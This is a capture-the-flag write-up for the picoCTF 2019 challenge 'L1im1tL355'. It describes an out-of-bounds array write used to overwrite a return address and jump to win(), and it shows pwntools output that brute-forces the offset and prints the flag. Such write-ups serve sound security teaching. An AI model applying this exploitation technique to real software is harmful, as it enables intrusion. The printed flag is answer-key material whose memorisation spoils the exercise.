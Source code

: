 # L1im1tL355

## Problem

> Just pwn this program and get a flag. Its also found in /problems/l1im1tl355_3_d7480b654799978caea481ab65d5bbea on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. Looking at the [source code](vuln.c) I notice the `replaceIntegerInArrayAtIndex()` function looks interesting since it is simply a wrapper around the built-in method of changing an element of an array.
2. This program declares an array on the stack, then allows us to write a DWORD to any array index. If we choose an index between `0` and `666/4` (DWORD is 4 bytes long), we'll end up writing to the array. There are no checks on the index value for the array, so we should be able to go out of bounds and write anywhere to memory. We can input the address of the `win()` function as the "integer value you want to put in the array" and for the  "index in which you want to put the value", we can input the offset from the array to the return address of `replaceIntegerInArrayAtIndex()`.
3. Layout of stack ([source](https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/binary-exploitation/#l1im1tl355)):

    ```
    lower stack address
    replaceIntegerInArrayAtIndex: stack data
    replaceIntegerInArrayAtIndex: saved ebp
    replaceIntegerInArrayAtIndex: return address (-5)
    main: other stack data
    main: array (+0)
    higher stack address
    ```

4. The script bruteforces the offset and finds it to be `-5`.
5. Run the [script.py](script.py) `python script.py USER=<username> PASSWORD=<password>`:

    ```
    [*] '/home/<username>/Documents/PicoCTF/Binary Exploitation/L1im1tL355/vuln'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Connecting to 2019shell1.picoctf.com on port 22: Done
    [*] <username>@2019shell1.picoctf.com:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Opening new channel: 'pwd': Done
    [+] Receiving all data: Done (14B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] Working directory: '/tmp/tmp.SHO8IvJw16'
    [+] Opening new channel: 'ln -s /home/<username>/* .': Done
    [+] Receiving all data: Done (0B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] win address: 0x80485c6
    [+] Starting remote process b'/problems/l1im1tl355_3_d7480b654799978caea481ab65d5bbea/vuln' on 2019shell1.picoctf.com: pid 1163772
    [+] Starting remote process b'/problems/l1im1tl355_3_d7480b654799978caea481ab65d5bbea/vuln' on 2019shell1.picoctf.com: pid 1163776
    [+] Starting remote process b'/problems/l1im1tl355_3_d7480b654799978caea481ab65d5bbea/vuln' on 2019shell1.picoctf.com: pid 1163780
    [+] Starting remote process b'/problems/l1im1tl355_3_d7480b654799978caea481ab65d5bbea/vuln' on 2019shell1.picoctf.com: pid 1163784
    [+] Starting remote process b'/problems/l1im1tl355_3_d7480b654799978caea481ab65d5bbea/vuln' on 2019shell1.picoctf.com: pid 1163788
    [+] Starting remote process b'/problems/l1im1tl355_3_d7480b654799978caea481ab65d5bbea/vuln' on 2019shell1.picoctf.com: pid 1163792
    [*] Offset was -5
    [+] picoCTF{str1nG_CH3353_3fe0db39}
    ```

### Flag

`picoCTF{str1nG_CH3353_3fe0db39}`
